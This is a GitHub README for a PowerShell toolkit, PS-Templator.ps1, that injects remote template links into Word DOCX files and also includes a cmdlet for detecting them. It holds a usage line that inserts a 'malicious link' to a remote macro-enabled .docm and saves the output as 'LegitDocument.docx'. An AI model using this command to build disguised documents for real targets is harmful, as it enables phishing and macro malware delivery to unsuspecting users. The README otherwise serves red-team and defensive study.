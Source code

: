 # RTI-Toolkit

Remote Template Injection Toolkit

## Description

RTI-Toolkit is an open-source PowerShell toolkit for Remote Template Injection attack. This toolkit includes a PowerShell script named `PS-Templator.ps1` which can be used from both an attacking and defensive perspective.

The following tables presents the main modules (cmdlets) of `PS-Templator.ps1`:

| Cmdlet | Description | Prespective |
| -------|:-----------:|:-----------:|
| [Invoke-Template](#invoke-template) | Implements remote template links within default Office Word templates  | attacking |
| [Invoke-Regular](#invoke-regular) | Implements remote template links within regular Office Word documents without template | attacking |
| [Invoke-Identify](#invoke-identify) | Indentifies remote template links within Office Word docx documents with/without template | defensive |

⚠️ `PS-Templator.ps1` supports only DOCX files.

## License

This tool is licensed under the [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE).

## Table of Contents
- [RTI-Toolkit](#rti-toolkit)
  - [Description](#description)
  - [License](#license)
  - [Table of Contents](#table-of-contents)
  - [Remote Template Injection (RTI)](#remote-template-injection-rti)
  - [Installation](#installation)
  - [cmdlets](#cmdlets)
    - [Invoke-Template](#invoke-template)
      - [Invoke Template Example](#invoke-template-example)
    - [Invoke-Regular](#invoke-regular)
    - [Invoke-Identify](#invoke-identify)
  - [References](#references)

## Remote Template Injection (RTI)

Remote Template Injection (RTI) in the context of Microsoft Office refers to a specific type of security vulnerability that can be exploited through malicious templates in Office documents (e.g., Word, Excel, PowerPoint).

For example, in a DOCX file, the content is stored in XML format within the archive, and some of these XML files may reference external resources or templates. Attackers can indeed manipulate these XML files to insert malicious links or content that can potentially exploit vulnerabilities or deceive users. 

This is a Macro-Based attack.

## Installation

To load `PS-Templator.ps1` as a module into memory, run the following command:
```
Import-Module .\PS-Templator.ps1
```

:information_source: `PS-Templator.ps1` works without the necessity of installing any additional dependencies.<br /><br />
:information_source: `PS-Templator.ps1` works as PowerShell module.

## cmdlets

### Invoke-Template

Invoke-Template is a cmdlet that implements remote template links within default Office Word templates.

#### Invoke-Template Example

Assuming that you have a default Word template, like this (Saved as, for example, 'Name.docx'):

![Default Word Template Document](/Pictures/Default-Word-Template.png)

If you use `Invoke-Template` cmdlet you can insert a malicious link within this docx

```
Invoke-Template -InputDoc Name.docx -Link "https://192.168.1.3:8080/Doc1.docm" -Output C:\Users\User\Desktop\LegitDocument.docx
```

Outcome:

![Invoke-Template-1](/Pictures/Invoke-Template-1.png)

As you can see, the Invoke-Template module keeps a backup of the original document and provides the full path to the malicious document.

### Invoke-Regular

### Invoke-Identify

## References
- [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
- [dmcxblue.gitbook.io](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1221-template-injection)
- [john-woodman.com](https://john-woodman.com/research/vba-macro-remote-template-injection/)
- [remoteInjector GitHub John Woodman](https://github.com/JohnWoodman/remoteInjector)
- [Invoke-Templator GitHub Outflanknl](https://github.com/outflanknl/Invoke-Templator)
- [attack.mitre.org](https://attack.mitre.org/techniques/T1221/)